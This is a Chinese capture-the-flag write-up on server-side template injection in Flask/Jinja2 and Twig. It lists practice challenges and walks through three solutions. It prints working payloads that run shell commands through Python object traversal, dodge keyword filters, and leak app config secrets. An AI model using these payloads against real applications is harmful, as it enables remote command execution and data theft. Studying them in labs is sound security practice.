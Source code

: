 ## SSTI：

## 目录

### 简单

-   ~~[CSCCTF 2019 Qual]FlaskLight~~

### 签到

-   ~~[BJDCTF2020]Cookie is so stable twig模板注入~~
-   ~~[WesternCTF2018]shrine 想方设法获取config~~
-   [CISCN2019 华东南赛区]Web11 smarty模板注入
-   [BJDCTF2020]The mystery of ip 简单的flask注入
-   [GYCTF2020]FlaskApp debug模式一定条件下可以窃取出来pin码命令执行，但是题目过滤的不够严格导致可以直接打，比签到难一点
-   [pasecactf_2019]flask_ssti 编码绕过
-   [GWCTF 2019]你的名字
-   [CISCN2019 总决赛 Day1 Web3]Flask Message Board

### 中等

-   [护网杯 2018]easy_tornado 因为框架比较冷门，如果不看WP的话需要自己手动翻手册，我觉得算中上偏难的题目。
-   [CISCN2019 华东南赛区]Double Secret 国赛半决赛因为大家互相出题所以都互相恶心，这题整个MD4，线下环境怎么打？

### 困难

-   [QWB2021 Quals]托纳多

### 脑洞

-   [RootersCTF2019]I_<3_Flask 用name注入。？怎么想到的

## Writeup

### [CSCCTF 2019 Qual]FlaskLight

![image-20220220160349289](README/image-20220220160349289.png)



发现提示

![image-20220220160501360](README/image-20220220160501360.png)

测试成功

![image-20220220160529875](README/image-20220220160529875.png)

列出所有子类

![image-20220220160904114](README/image-20220220160904114.png)

放入find.py跑一下敏感函数

![image-20220220161148184](README/image-20220220161148184.png)

构造payload

```python
{{[].__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['os'].popen(cat /xxx/flag)}}
```

出现未知错误

![image-20220220162228623](README/image-20220220162228623.png)

这里应该是关键字过滤

那就绕它！

```python
{{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('whoami').read()}}
```

![image-20220220170734065](README/image-20220220170734065.png)

同理可构造payload

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['__import__']('os').popen('whoami').read()}}
```

读取flag

```python
http://91ff8d9a-4ad0-491a-8d5d-c55157088e4f.node4.buuoj.cn:81/?search={{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek ').read()}}
```

![image-20220220171038110](README/image-20220220171038110.png)



### [BJDCTF2020]Cookie is so stable

![image-20220220191434667](README/image-20220220191434667.png)

![image-20220220193930268](README/image-20220220193930268.png)

存在模板注入

![image-20220220193953376](README/image-20220220193953376.png)

判断为twig注入

payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

写入输入框没有效果

hint页面有提示

![image-20220220194318325](README/image-20220220194318325.png)

抓包分析

![image-20220220194407436](README/image-20220220194407436.png)

发现cookie中有user接受我们输入的值，猜测这个模板注入参数在cookie中

![image-20220220194639959](README/image-20220220194639959.png)

成功获得flag

### [WesternCTF2018]shrine 想方设法获取config

进去源码如下

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

第一个路由是显示源码的，第二个路由可以传入参数，而且有黑名单过滤，猜测要读取配置文件

![image-20220220214030161](README/image-20220220214030161.png)

测试一下存在模板注入

要利用模板注入来读取配置，config和self被过滤，但我们仍然可以利用url_for()和get_flashed_messages()函数来读取config

![image-20220220215728961](README/image-20220220215728961.png)

发现

![image-20220220215825765](README/image-20220220215825765.png)

current_app意思应该是当前app，那我们就当前app下的config

![image-20220220215947455](README/image-20220220215947455.png)

flag出来了

最终payload

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config['FLAG'])}}
```

同理

```python
http://139fe4b8-9ae9-452c-9af3-142eef361b68.node4.buuoj.cn:81/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

